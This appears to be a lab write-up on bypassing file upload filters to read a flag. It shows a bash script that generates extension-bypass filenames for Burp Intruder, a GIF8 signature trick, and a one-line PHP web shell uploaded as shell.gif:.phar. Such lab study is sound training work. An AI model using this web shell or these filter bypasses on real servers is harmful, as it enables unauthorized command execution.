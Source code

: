 # Type Filters

The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

As the Lab suggests, the server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to guarantee that the file uploaded is an image.

So we must apply all the knowledge learned so far.

We start by capturing the request and send to the Intruder.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lets cover 3 components in this test:

* File extension - filename="§x§"
* Content-type - image/jpg
* File Signature - GIF8

We placed the `<?php echo "shell test";?>` to see if the php code was acttually executed.

To iterate the values of the file extensions let's create our own wordlist with the following script:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' 'php3' '.phar'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

Copy the content to the Intruder's payload configuration and run it. Don't forget to untick the payload encoding checkbox.

We placed the `<?php echo "shell test";?>` to see if the php code was acttually executed.

When the Intruder finishes the attack we can order by length, since the successfully uploaded files have a length of 229 and 230.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now lets modify the Request by send it to the Repeater.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We change the name (optional) to **shell.gif:.phar** and for the php code we change to this:

```php
<?php system($_REQUEST['cmd']); ?>
```



<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We do a simple just by execute the `id` command, as we can see from the output the above we manage to get a webshell!

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we just have to found the flag, that in our case is in our root directory.
